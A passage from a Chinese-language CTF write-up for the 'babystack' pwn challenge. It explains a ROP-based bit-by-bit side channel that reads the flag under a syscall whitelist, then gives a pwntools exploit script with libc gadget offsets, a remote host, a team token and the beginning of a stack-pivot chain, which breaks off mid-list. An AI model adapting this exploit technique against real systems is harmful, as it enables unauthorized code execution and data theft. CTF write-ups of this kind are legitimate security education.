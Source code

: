 ## babystack

题目限制了系统调用只能用open, read, exit。漏洞是任意的rop和一个leak，由于是白名单，所以没有别的想法，就是通过rop来读文件。

思路是读取flag文件到bss段，然后每次读取8字节到寄存器中，通过移位操作，使寄存器中只剩flag中的第n个bit(n=0,1,2,3...64)。所以寄存器的值要么是0要么是1，然后将rsp加上这个寄存器的值乘以3，然后在栈上布置两个不同的地址，则最终的效果是：如果是0跳到地址A，如果是1跳到地址B。比如地址A是读取一段输入，地址B是退出程序，这样可以在脚本里继续发数据从而可以判断这个bit是0还是1。这样逐bit爆破出所有的flag。当然事实证明，后来用的判断方法是对面会不会发Segment fault，当然其实是异曲同工。

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
__author__ = "Kira"
from pwn import *
import sys
import os
context(binary='./babystack', os='linux', log_level='critical')

if len(sys.argv) > 1:
    if sys.argv[1] == 'r':   # remote
        p = remote('47.100.64.113', 20001)
else:
    os.environ['LD_PRELOAD'] = './libc.so.6_885acc6870b8ba98983e88e578179a2c'
    p = process('./babystack')

libc = ELF('./libc.so.6_885acc6870b8ba98983e88e578179a2c')
elf = context.binary


# 0x0000000000021102: pop rdi; ret;
# 0x00000000000202e8: pop rsi; ret;
# 0x0000000000001b92: pop rdx; ret;
# 0x000000000001fb12: pop r12; ret;
# 0x000000000002a69a: pop rbx; ret;
# 0x00000000000d20a3: pop rcx; ret;
# 0x0000000000033544: pop rax; ret;
# 0x0000000000003838: pop rsp; ret;

# 0x0000000000112285: xchg eax, edi; ret;

# 0x0000000000195455: add esp, edi; jmp rax;
# 0x0000000000047bb5: mov r9, qword ptr [rdi + 0x30]; mov rdi, qword ptr [rdi + 0x68]; xor eax, eax; ret;
# 0x0000000000048a8f: shr r9, cl; mov qword ptr [rdi], r9; ret;
# 0x0000000000048985: shl r9, cl; mov qword ptr [rdi], r9; ret;
# 0x0000000000089267: mov rdi, r9; mov qword ptr [rbx], rsi; mov qword ptr [rbx + 0x48], r9; call rcx;
bit = ''
flag = 'hctf{dca20306663620ba1e3c7ed20192fc705ed7ec4151eb61e736098e48778cc8d6}'
flag1 = ''
index = len(flag) * 8
token = '79DC7rePzwA6MEC1dwoloOYpbP10IMzG'
p.sendlineafter('token\n', token)
while True:
    p.sendlineafter('chance\n', str(0x601068))
    libc.address = int(p.recvline()) - libc.symbols['__isoc99_scanf']

    # stack pivot
    rop = [
        libc.address + 0x21102,     # pop rdi; ret;
        0,
        libc.address + 0x202e8,     # pop rsi; ret;
        0x601400,                   # new stack
        libc.address + 0x1b92,      # pop rdx; ret;
        352,
```
